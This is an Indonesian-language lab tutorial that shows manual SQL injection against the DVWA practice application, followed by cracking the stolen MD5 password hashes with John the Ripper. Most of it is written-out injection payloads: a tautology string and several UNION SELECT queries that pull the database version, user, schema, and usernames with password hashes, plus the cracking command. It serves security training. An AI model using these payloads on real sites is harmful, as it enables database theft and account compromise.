

# Lesson 6: Manual SQL Injection, John the Ripper

1. Buka browser di backtrack kemudian akses alamat ip dari server metasploit.

2. Akses halaman login DVWA.

3. Masukkan user dan password.

4. Klik tab DVWA Security, atur tingkat keamanan ke low dan klik submit.


5. Klik tab SQL Injection.


6. Normalnya, kita bisa memasukkan angka pada field yang tersedia untuk menampilkan data user yang sesuai idnya dengan input. 


7. Namun kita bisa menambahkan karakter "%' or '0' = '0" untuk menampilkan semua data. Perbandingan nilai '0' = '0' akan selalu memberikan nilai benar yang mengakibatkan semua data yang ada di database ditampilkan.


8. Kita juga bisa mengakses versi dari database yang digunakan dengan memasukkan potongan program berikut.
```
%' or 0=0 union select null, version() #
```


9. Mendapatkan user dari database.
```
%' or 0=0 union select null, user() #
```


10. Mendapatkan nama database.
```
%' or 0=0 union select null, database() #
```


11. Mendapatkan semua nama tabel yang berhubungan dengan user di information_schema
```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' #
```


12. Mendapatkan semua field di information_schema di tabel user.
```
%' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' #
```


13. Menampilkan semua isi dari tabel users.
```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```


14. Dari hasil sebelumnya, kita bisa membuat password file hash, ambil username dan hash file dari user, kemudian letakkan di notepad atau gedit dengan format USERNAME:PASSWORDHASH.


15. Simpan ke /pentest/passwords/john dengan nama dvwa_password.txt.


16. Jalankan perintah berikut.
```
./john --format=raw-MD5 dvwa_password.txt
```


